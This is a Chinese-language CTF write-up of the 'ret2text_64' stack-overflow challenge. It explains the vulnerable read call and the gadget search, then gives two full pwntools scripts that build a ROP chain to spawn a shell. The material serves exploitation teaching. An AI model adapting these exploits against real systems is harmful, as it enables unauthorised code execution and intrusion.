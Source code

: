 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Baby
- 分类：Pwn
- 暴露端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

这是`ret2text_32`的升级版，64位程序与32位不同，函数在传参的时候是通过寄存器来传参

64位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

---

#### 查看文件信息

查看文件类型：

```shell
>>> file ret2text_64
ret2text_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d76b1f973484a43907334ef6a59bce3bd057b539, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=ret2text_64
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里只打开了 NX 保护

#### 分析漏洞成因

反汇编`vuln`函数：

```c
┌ 112: sym.vuln ();
│           ; var size_t nbyte @ rbp-0x4
│           ; var void *buf @ rbp-0x40
│           0x0040125c      f30f1efa       endbr64
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4883ec40       sub rsp, 0x40
│           0x00401268      488d05711100.  lea rax, str.But_this_time..you_need_to_find_the_point_to_get_it_ ; 0x4023e0 ; "But this time..you need to find the point to get it!"
│           0x0040126f      4889c7         mov rdi, rax                ; const char *s
│           0x00401272      e809feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401277      488d05971100.  lea rax, str.Whats_your_age_ ; 0x402415 ; "What's your age?"
│           0x0040127e      4889c7         mov rdi, rax                ; const char *s
│           0x00401281      e8fafdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401286      488d45fc       lea rax, [nbyte]
│           0x0040128a      4889c6         mov rsi, rax
│           0x0040128d      488d05921100.  lea rax, [0x00402426]       ; "%d"
│           0x00401294      4889c7         mov rdi, rax                ; const char *format
│           0x00401297      b800000000     mov eax, 0
│           0x0040129c      e81ffeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004012a1      488d05811100.  lea rax, str.Now..try_to_overflow_ ; 0x402429 ; "Now..try to overflow!"
│           0x004012a8      4889c7         mov rdi, rax                ; const char *s
│           0x004012ab      e8d0fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012b0      8b55fc         mov edx, dword [nbyte]      ; size_t nbyte
│           0x004012b3      488d45c0       lea rax, [buf]
│           0x004012b7      4889c6         mov rsi, rax                ; void *buf
│           0x004012ba      bf00000000     mov edi, 0                  ; int fildes
│           0x004012bf      b800000000     mov eax, 0
│           0x004012c4      e8d7fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004012c9      90             nop
│           0x004012ca      c9             leave
└           0x004012cb      c3             ret
```

本题的漏洞点在`read`函数处，从标准输入，读入大小为 nbyte 的数据存入 buf 数组，buf 的大小 0x40，nbyte 的大小由第一次`scanf`函数接收的为准，所以这题的输入大小由我们决定，可以输入超出 buf 的长度，覆盖 `rbp`的值，造成栈溢出

反编译`b4ckdoor`函数

```c
void sym.b4ckdoor(void)

{
    sym.imp.system("echo hi!");
    return;
}
```

`system`调用`echo`输出 hi ，可惜没有调用`/bin/sh`，这里给大家介绍个工具

ROPgadget，利用这个工具我们可精确的查找到程序中的一些字符串，例如查找`/bin/sh`

- 命令格式：ROPgadget --binary FILE --string "/bin/sh"

```shell
>>> ROPgadget --binary ret2text_64 --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

上面讲述过64位程序传参需要通过寄存器，刚刚的工具也可以用来寻找寄存器

- 命令格式：ROPgadget --binary FILE --only 'pop|ret'

```shell
>>> ROPgadget --binary ret2text_64 --only 'pop|ret'
Gadgets information
============================================================
0x000000000040119d : pop rbp ; ret
0x000000000040123d : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

本题我们只需要用到`rdi`

分析到这，本题的大概思路就有了，首先溢出，因为没有后门函数，所以需要我们手动在栈上构造 ROP 链调用`system`执行`/bin/sh`从而拿到 shell。

#### 编写利用程序

这里我们提供两种写法供同学们研究，第一种是比较正规的做法，第二种是懒人做法

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```